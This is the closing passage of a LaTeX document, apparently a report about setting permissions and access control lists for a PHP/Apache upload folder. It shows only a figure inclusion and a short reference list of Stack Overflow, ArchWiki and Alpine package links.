    
\includegraphics[width=\linewidth]{2-g_result.png}

    \textbf{References}
    \begin{itemize}
      \item \href{https://stackoverflow.com/questions/10990/what-are-the-proper-permissions-for-an-upload-folder-with-php-apache}{What are the proper permissions for an upload folder with PHP/Apache? - Stack Overflow}
      \item \href{https://wiki.archlinux.org/title/Access_Control_Lists}{Access Control Lists - ArchWiki}
      \item \href{https://pkgs.alpinelinux.org/package/edge/main/x86_64/acl}{Alpine Linux packages - acl}
    \end{itemize}
  \end{enumerate}
\end{document}
